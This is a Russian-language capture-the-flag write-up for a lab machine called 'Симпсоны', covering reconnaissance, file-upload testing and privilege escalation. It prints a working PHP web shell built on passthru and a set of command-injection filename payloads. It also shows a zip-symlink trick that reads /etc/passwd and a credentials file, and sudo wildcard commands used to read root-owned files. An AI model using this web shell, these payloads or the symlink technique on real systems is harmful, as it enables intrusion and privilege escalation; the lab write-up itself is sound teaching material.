



### Симпсоны

Категория: quests\
Уровень: Средний

---
### Описание
Описание: Казалось бы, причем тут Симпсоны?\
IP: 192.168.2.206 (VPN)

### Решение

#### Разведка

Для начала проведем разведку используя nmap:

```
sudo nmap -sS -sC -sV -O --reason -p- 192.168.2.206
```
Ниже кратко описано назначение каждого из параметров:
- ```-sS``` - типа сканирования, в данном случае это полуоткрытый ```TCP Handshake``` (```SYN``` сканирование), для того, чтобы nmap мог сам формировать и отправлять пакеты с TCP флагами на низком уровне, нужны права на ```raw sockets (CAP_NET_RAW - linux capabilities)``` или запуск от ```root```.
- ```-sC``` - nmap будет использовать NSE скрипты (на языке Lua). Сценарии будем использовать default. Также в целом у nmap из коробки доступны сценарии категорий: auth, default, discovery, DoS, exploit, external, fuzzer, intrusive, malware, safe, version, vuln
- ```-sV``` - обнаружении версии сервисов
- ```-O``` - обнаружение операционной системы
- ```--reason``` - отображение причины, по которой Nmap присваивает порту определённый статус (open, closed, filtered и т. д.), но для меня ключевым является отображаемый TTL из TCP сегмента. Если устрой­ств по пути до цели мно­го, зна­чение IP.ttl будет умень­шать­ся. Ес­ли на уда­лен­ном IP име­ется ряд откры­тых пор­тов, то далеко не факт, что все пор­ты будут иметь оди­нако­вый IP.ttl. Например, по IP.ttl, можно определить, что за IP-адре­сом реаль­но скры­вает­ся четыре сис­темы. 
- ```-p-``` - Сканировать все порты (от 1 до 65535), а не только стандартные 1000 портов, которые Nmap проверяет по умолчанию.


Nmap нашел открытый 22 порт и 80 с веб сервисом Apache (по опыту CTF тасок, нас ждет php движок), также есть 2 файла:


```
/robots.txt
User-agent: *
Disallow: /secret.txt
```



Страница /secret.txt возвращает ```HTTP 403 Forbidden```.

На всякий случай запустим фаззинг, вдруг будут найдены интересные ендпоинты или артефакты. Будем использовать```feroxbuster``` и его дефолтны словарь.


В целом ничего нового. Сложный фаззинг на все возможные варианты проводить не будем, оставим это на совсем сложный случай, так как тут CTF таска. Но, на реальных проектах конечно стоит покрывать по максимальному, чтобы найти миссконфиги с забытыми бекапами, гит репами и другими секретами, плюс можно поймать аномальное поведение на ендпоинтах на перебираемых параметрах (по опыту было раскрытие ```HTTP 302``` на ```Location``` внутри Kubernetes пространства).

#### Изучение сервиса

Бегло изучаем веб сервис:


По сути весь серсив это один корневой веб рут ендпоинт ```/ ```, в нем есть форма загрузки файла и инклюд скрипта ```<script src="/static/js/script.js">```, если их поизучать, то там логика провери файла на размер, на расширение ```.zip```. Также видим, что приклад у нас написан на ```PHP``` и берем это на заметку.

#### Моделирование угроз

### CVE Reserch

Так как у нас целевой веб сервис работате на ```Apache``` движке, то пробежимся по нему быстрым сканером уязвимостей ```Nuclei``` (он должен содержать шаблоны по детекту известных CVE для Apache):


Ничего интересного найдено не было.

### Path Traversal

- Path Traversal - возникает из-за небезопасной конфигурации или логических уязвимостей в веб-приложении. Чаще всего директорий-траверсинг происходит внутри веб-приложения (PHP, Python, CGI-скрипты, и т.д.), когда пользовательский ввод (часть URL или GET/POST-параметры) не фильтруется должным образом. Также в конфигурации веб сервиса (Apache, Ngin, etc) может быть допущена ошибка и позволить выйти за пределы границы веб рута.


Вообще ```Nuclei``` тоже должен икать ```Path Traversal```, но для примера запустим ```wfuzz``` и словать из ```SecList/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt```

Ничего интересного не найдено.

### PHP Injection

Так как у нас приклад написан на PHP, то попробуем изучать логику сервис и выполнить типичные ошибки у PHP. Создам текстовый файл и загрузим по бизнес логике веб сервиса.


Видим тело запроса на загрузку файла, также видим ответ, где по бизнес логике нам отображается относительный путь куда был сохранен zip архив.


Также видим содержимое файла. Что если попробовать загрузить php шелл? Проверка. В качестве шелла будем использовать код:

```php
<?php
echo "
<html>
    <head>
        <title>SHELL</title>
    </head>
    <body>";
echo "<form method=post>";
echo "<input type=text name=cmd size=100>";
echo "</form>";
echo "<pre>";
if ((!$_POST['cmd']) || ($_POST['cmd']=="")) {
    $_POST['cmd']="id;pwd;uname -a;ls -la";
}
echo "".passthru($_POST['cmd'])."</pre>
    </body>
</html>";
?>
```


Шелл в .zip архиве загружен успешно, но бизнес логика по отображению содержимого завершилось ошибкой.


В результате мы видим раскрытия:
- условной eval команды выполняющейся в беке cat ```uploads/{{ filename }}.zip```
- абсолютный путь веб рута ```/var/www/html/```uploads/226606c604e1528063ab438ecddda63f/*

### CMD Injection

Так как нам известна ```eval``` команда, то попробуем выполнить ```CMD Injection```. Используя пейлоды в ```filename```:
```
;id;
|id;
||id;
&&id;
&id;
\";id;
\";id;
```

```
------WebKitFormBoundaryB9MkIBru7Dzydri9
Content-Disposition: form-data; name="zip"; filename="shell.zip\";id;"
```


Но, инъекция не работает, получаем ошибку:

```
Array
(
    [0] => extension not allowed, please choose a zip file.
)
```

В бекенде есть фильтрация на расширение файла. Пробовал различные пейлоды, ```null byte```, расширения ```mime``` и т.д. Узвимости ```CMD Injection``` не обнаружено.


#### PHP LFI

- LFI (Local File Inclusion) – это уязвимость (или класс уязвимостей) в PHP-приложениях, при которой злоумышленник может заставить веб-сервер подключить (include) локальный файл, указанный в параметрах запроса или иных данных, поступающих от пользователя.

Попробуем провести ```LFI``` атаку, но она будет связана с архитектурой Linux и с работой с симлинками:


1) сздаем симлинк на ```/etc/passd ```
2) упаковываем симлинк к ```zip``` контейнер




3) загружем на веб сервис
4) смотрим на поведение предпологаемой ```eval``` функции

В резултате мы выполнили ```LFI``` уязвимость и прочитали содержимое файла ```/etc/passwd```

Зная абсолютный путь веб рута, попытаеся прочитать содержимое ```/secret.txt```


В итоге получаем содержимое ```/var/www/html/secret.txt``` - ```mikki : mase4mase```


#### Privilege Escalation

Зная содержимое ```secret.txt``` заходим по ```ssh``` на сервер:


1) Меняем оболочку на ```bash``` (если бы был реверс шелл, то пришлось использовать различные методы по стабильному ```tty``` шеллу)
2) Проверяем можем писать в домашней директори и в ```/tmp```:


Домашняя директория закрыта на запись, есть возможность на запись в ```/tmp```. Также находим первую часть флага: ```CODEBY{I_H4V3N'7_S33N_7H3```

3) Загружаем на сервер ```linpes.sh``` скрипт для исследования Linux системы на миссконфиги, уязвимости, интересные файлы которые могут помочь в повышении привилегий.

```
scp linpeas.sh mikki@192.168.2.206:/tmp/linpeas.sh
```


Запускаем linpeas.sh


Самым интересным окажутся настройки ```/etc/sudoers``` файла

```
Matching Defaults entries for mikki on cffe4ac50677:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mikki may run the following commands on cffe4ac50677:
    (ALL) NOPASSWD: /usr/bin/zip data.zip /var/www/*output, /usr/bin/ln -s /var/www/* output
```

Нашему пользователю без ввода пароля разрешено от sudo, выполнить две команды:
- /usr/bin/zip data.zip /var/www/*output
- /usr/bin/ln -s /var/www/* output

В них присутвует регулярное выражение в виде ```*```, поэтому отркрывается возможность прочитать любой файл от рута. Пейлод будет выглядеть так:

```
# создаем симлинк на /root/last_part
sudo /usr/bin/ln -s /var/www/../../root/last_part output

# упаковываем симлинк в zip архиве
sudo /usr/bin/zip data.zip /var/www/../../tmp/pwned/output

# извлекаем данные из архива
unzip -: data.zip 

# читаем флаг
cat tmp/pwned/output 
_S1MPS0NS_1N_4_L0NG_71M3}
```



В чем особенность повышения привилегий с симлинками, мы можем выполнить создание симлинка с правами рута, затем выполнить упаковку в ```zip``` архив **без** флага ```--symlink```, тем самым утилита ```zip``` (если выполнить трасировку) прочитает содержимое на которое указывает симлинк и скопирует его внуторь архива. Поэтому по сути,через утилиту **zip** мы выполняем копирование с правми рута.

Вторая часть флага: ```_S1MPS0NS_1N_4_L0NG_71M3}```

Весь флаг квеста: ```CODEBY{I_H4V3N'7_S33N_7H3_S1MPS0NS_1N_4_L0NG_71M3}```

